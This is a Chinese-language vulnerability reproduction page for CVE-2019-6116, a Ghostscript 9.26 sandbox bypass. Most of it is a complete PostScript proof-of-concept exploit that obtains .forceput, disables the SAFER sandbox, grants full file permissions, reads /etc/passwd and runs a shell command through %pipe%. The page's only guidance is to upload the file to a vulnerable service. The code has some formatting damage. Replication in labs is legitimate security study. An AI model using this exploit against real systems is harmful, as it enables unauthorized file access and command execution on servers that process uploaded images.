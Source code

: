 # （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2954](https://www.zhihuifly.com/t/topic/2954)

# （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

Ghostscript 9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Ghostscript 9.26版本

## 三、复现过程

**poc.png**

```
%!PS
% extract .actual_pdfpaintproc operator from pdfdict
/.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

/exploit {

(Stage 11: Exploitation…)=

```
/forceput exch def

systemdict /SAFER false forceput
userparams /LockFilePermissions false forceput
systemdict /userparams get /PermitFileControl [(*)] forceput
systemdict /userparams get /PermitFileWriting [(*)] forceput
systemdict /userparams get /PermitFileReading [(*)] forceput

% update
save restore

% All done.
stop 
```

} def

errordict /typecheck {

/typecount typecount 1 add def

(Stage 10: /typecheck #)=only typecount ==

```
% The first error will be the .knownget, which we handle and setup the
% stack. The second error will be the ifelse (missing boolean), and then we
% dump the operands.
typecount 1 eq { null } if
typecount 2 eq { pop 7 get exploit } if
typecount 3 eq { (unexpected)= quit }  if 
```

} put

% The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some

% executable arrays onto the operand stack that contain .forceput, but are not

% marked as executeonly or pseudo-operators.

%

% The routine was attempting to pass them to ifelse, but we can cause that to

% fail because when the routine was declared, it used `bind` but many of the

% names it uses are not operators and so are just looked up in the dictstack.

%

% This means we can push a dict onto the dictstack and control how the routine

% works.

<<

/typecount      0

/PDFfile        { (Stage 0: PDFfile)= currentfile }

/q              { (Stage 1: q)= } % no-op

/oget           { (Stage 3: oget)= pop pop 0 } % clear stack

/pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op

/gput           { (Stage 5: gput)= }  % no-op

/resolvestream  { (Stage 6: resolvestream)= } % no-op

/pdfopdict      { (Stage 7: pdfopdict)= } % no-op

/.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index

/pdfdict        { (Stage 9: pdfdict)=

% cause a /typecheck error we handle above

true

}

>> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

(Should now have complete control over ghostscript, attempting to read /etc/passwd…)=

% Demonstrate reading a file we shouldnt have access to.

(/etc/passwd) ® file dup 64 string readline pop == closefile

(Attempting to execute a shell command…)= flush

% run command

(%pipe%id > /tmp/success) (w) file closefile

(All done.)= `quit` 
```

上传这个poc文件，即可执行`id > /tmp/success`：

![image](img/1955e4e86937e64a9a8f004eafe2f234.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2019-6116/